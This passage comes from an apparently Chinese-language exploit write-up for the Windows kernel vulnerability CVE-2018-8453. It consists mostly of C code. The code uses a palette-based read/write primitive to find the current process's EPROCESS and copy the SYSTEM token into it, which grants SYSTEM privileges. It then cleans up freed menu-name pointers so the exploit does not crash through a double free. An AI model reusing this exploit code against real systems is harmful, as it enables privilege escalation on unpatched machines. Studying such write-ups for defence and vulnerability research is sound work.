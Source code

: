 ```
    DWORD CONST dwPIDOffset = 0x2E0, dwLinksOffset = 0x2E8, dwTokenOffset = 0x358;
    ULONG64 ulPID = GetCurrentProcessId(), ulCurPID = 0, ulCurEprocess = ulSystemEprocess;
     
    // 获取当前进程EPROCESS
    do {
        ulCurEprocess = ReadDataByPalette(hManager, hWorker, dwStart, dwEntries, (PVOID)(ulCurEprocess + dwLinksOffset));
        ulCurEprocess -= dwLinksOffset;
        ulCurPID = ReadDataByPalette(hManager, hWorker, dwStart, dwEntries, (PVOID)(ulCurEprocess + dwPIDOffset));
    } while (ulPID != ulCurPID);
 
    ULONG64 ulToken = 0;
     
    // 将system进程的token赋给当前进程
    ulToken = ReadDataByPalette(hManager, hWorker, dwStart, dwEntries, (PVOID)(ulSystemEprocess + dwTokenOffset));
    WriteDataByPalette(hManager, hWorker, dwStart, dwEntries, (PVOID)(ulCurEprocess + dwTokenOffset), ulToken);
 
exit:
    return bRet;
}
```  
  
  
  
由于触发漏洞的时候，xxxSBTrackInit会释放掉MenuName所指的内存，为了防止在进程退出，释放资源的时候再次对其进行释放导致双重释放，就需要通过前面在g_ulMenuName中保存的地址修改为NULL来解决该问题，对应代码如下：  
```
BOOL ReapairData_CVE_2018_8453(HPALETTE hManager, HPALETTE hWorker)
{
    BOOL bRet = TRUE;
    ULONG64 ulValue = 0;
    DWORD i = 0;
 
    DWORD dwEntries = sizeof(ULONG64) / sizeof(PALETTEENTRY);
    DWORD dwFirstColorOffset = 0x78;
    DWORD dwStart = (0x800 - 0x88 + dwFirstColorOffset) / 4;
    for (i = 0; i < 0x400; i++)
    {
        if (g_ulMenuName_2018_8453[i])
        {
            if (!WriteDataByPalette(hManager, hWorker, dwStart, dwEntries, (PVOID)g_ulMenuName_2018_8453[i], (ULONG64)ulValue))
            {
                printf("reapair wrong\n");
                bRet = FALSE;
                goto exit;
            }
        }
        else break;
    }
 
exit:
    return bRet;
}
```  
  